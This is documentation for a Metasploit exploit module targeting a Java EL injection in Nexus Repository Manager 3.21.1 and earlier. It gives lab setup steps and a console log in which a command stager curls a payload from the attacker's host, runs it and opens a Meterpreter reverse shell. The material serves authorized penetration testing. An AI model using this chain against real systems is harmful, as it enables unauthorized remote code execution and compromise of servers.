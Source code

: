 ## Vulnerable Application

### Description

This module exploits a Java Expression Language (EL) injection in Nexus
Repository Manager versions up to and including 3.21.1 to execute code
as the Nexus user. Tested against 3.21.1-01.

### Setup

Install Docker using the [official instructions](https://docs.docker.com/get-docker/).
Follow the instructions for your platform and distribution (if using
Linux). If you're using OS X, you may prefer to `brew cask install docker`
after installing [Homebrew](https://brew.sh/).

Run `docker run -d -p 8081:8081 --name nexus sonatype/nexus3:3.21.1`
(note the added `3.21.1` tag) as per Sonatype's [Docker Hub instructions](https://hub.docker.com/r/sonatype/nexus3/#running).

Once Nexus has started, run `docker exec nexus cat /nexus-data/admin.password`
to get the admin password. Next, open a browser and go to <http://localhost:8081/>.
Sign in as the `admin` user with the password you just retrieved.

Follow the prompts. Change the password to something you can remember,
since you'll be using it to test the module. You can click through the
anonymous access question, since it's not relevant to the exploit.

If you have trouble getting the password change to stick, browse to
<http://localhost:8081/#user/account> and change it again.

### Targets

```
Id  Name
--  ----
0   Nexus Repository Manager <= 3.21.1
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### USERNAME

Set this to a valid Nexus username.

### PASSWORD

Set this to a valid Nexus password.

## Scenarios

### Nexus Repository Manager 3.21.1-01 from [Docker Hub](https://hub.docker.com/r/sonatype/nexus3)

```
msf5 > use exploit/linux/http/nexus_repo_manager_el_injection
msf5 exploit(linux/http/nexus_repo_manager_el_injection) > options

Module options (exploit/linux/http/nexus_repo_manager_el_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       Nexus password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8081             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   admin            yes       Nexus username
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nexus Repository Manager <= 3.21.1


msf5 exploit(linux/http/nexus_repo_manager_el_injection) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(linux/http/nexus_repo_manager_el_injection) > set lhost 192.168.1.3
lhost => 192.168.1.3
msf5 exploit(linux/http/nexus_repo_manager_el_injection) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Nexus 3.21.1-01 is a vulnerable version.
[*] Executing command stager for linux/x64/meterpreter_reverse_tcp
[*] Logging in with admin:admin
[+] Logged in with NXSESSIONID=8b6fd077-1830-4e2b-90e8-2997d260b5c0;
[*] Using URL: http://0.0.0.0:8080/t6NXrxF
[*] Local IP: http://192.168.1.3:8080/t6NXrxF
[*] Generated command stager: ["curl -so /tmp/hgzeytII http://192.168.1.3:8080/t6NXrxF", "chmod +x /tmp/hgzeytII", "/tmp/hgzeytII", "rm -f /tmp/hgzeytII"]
[*] Executing command: curl -so /tmp/hgzeytII http://192.168.1.3:8080/t6NXrxF
[+] Successfully executed command: curl -so /tmp/hgzeytII http://192.168.1.3:8080/t6NXrxF
[*] Client 192.168.1.3 (curl/7.61.1) requested /t6NXrxF
[*] Sending payload to 192.168.1.3 (curl/7.61.1)
[*] Command Stager progress -  50.00% done (54/108 bytes)
[*] Executing command: chmod +x /tmp/hgzeytII
[+] Successfully executed command: chmod +x /tmp/hgzeytII
[*] Command Stager progress -  70.37% done (76/108 bytes)
[*] Executing command: /tmp/hgzeytII
[+] Successfully executed command: /tmp/hgzeytII
[*] Command Stager progress -  82.41% done (89/108 bytes)
[*] Executing command: rm -f /tmp/hgzeytII
[+] Successfully executed command: rm -f /tmp/hgzeytII
[*] Command Stager progress - 100.00% done (108/108 bytes)
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:53094) at 2020-04-07 19:25:38 -0500
[*] Server stopped.

meterpreter > getuid
Server username: no-user @ 282665c16215 (uid=200, gid=200, euid=200, egid=200)
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Red Hat Enterprise Linux 8 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
